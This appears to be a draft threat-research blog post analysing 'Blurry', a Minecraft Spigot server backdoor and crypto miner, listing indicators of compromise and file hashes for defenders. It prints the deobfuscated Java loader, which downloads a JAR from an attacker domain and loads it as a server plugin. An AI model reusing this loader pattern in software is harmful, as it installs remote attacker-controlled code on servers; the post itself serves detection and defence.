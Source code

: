 ```yaml
---
title: Blurry Spigot Backdoor
author: xyzeva
pubDatetime: 2023-07-20T13:50:10.627Z
postSlug: blurry-backdoor
featured: false
draft: true
tags:
  - threat
description: A new minecraft server backdoor and crypto minder.
---
```


MMPA members noticed some malicious activity going on their own personal servers, when given samples to investigate, MMPA uncovered the malware family "Blurry".

## What we know so far

Blurry is a multi-stage backdoor that is capable of completely taking over minecraft servers, crypto mining, and DDoSing.

Blurry works in 2 stagers, one being pulling for a domain, a JAR mainly named `BukkitScheduler.jar` and loading it into spigot, the loader is heavily obfuscated, but when cleaned up, it looks something like this:
```java
PluginManager pluginManager = Bukkit.getPluginManager();
if(pluginManager.getPlugin("BukkitScheduler") != null) return; 
URL url = new URL("https://i-really-love-cute-little-boys.fluyd.dev/aids/1ii1i1i11i1i1i1ii1i1iii1i11i1i1i1i1i1i1i1i1i1i1i1i1i1");
File file = new File("./plugins/BukkitScheduler.jar");
Files.copy(url.openStream(), file.toPath(), StandardCopyOption.REPLACE_EXISTING);
Plugin plugin = pluginManager.loadPlugin(file);
plugin.onLoad();
pluginManager.enablePlugin(plugin);
```

The malware has been seen to DDoS LGBT related minecraft servers. From what we can see, this is currently a minor threat, as it hasn't spread yet. But it should still be a good idea to check your servers.

## IoCs

- xmrig in minecraft server directory (`find | grep xmrig`)
- *.fluyd[.]dev

### Hashes
All hashes are provided as SHA-256.

#### Loaders
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `SoaromaSAC-1.0.65.jar` (Found on Bukkit, the actual plugin isnt affected.)
- `ffc965299059c29c4a806658215f99b5160d58b283befc7d3ac33b43c30cffeb` - Cracked Vulcan (`Vulcan-2.7.3.jar`)
- `1a9a698c6d9011727d1f4ace52bcf7630361765602cf729fc8bccc3774ce7ad2` - Fake copy of Open Source Project (`BedrockPlayerManager-1.4.jar`)

#### Payload
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `BukkitScheduler.jar`
- `8977470e0a766dc2deee2320eafeefa1f15d9adcc93f749418c362ee8ed4b858` - XMRig config (`config.json`)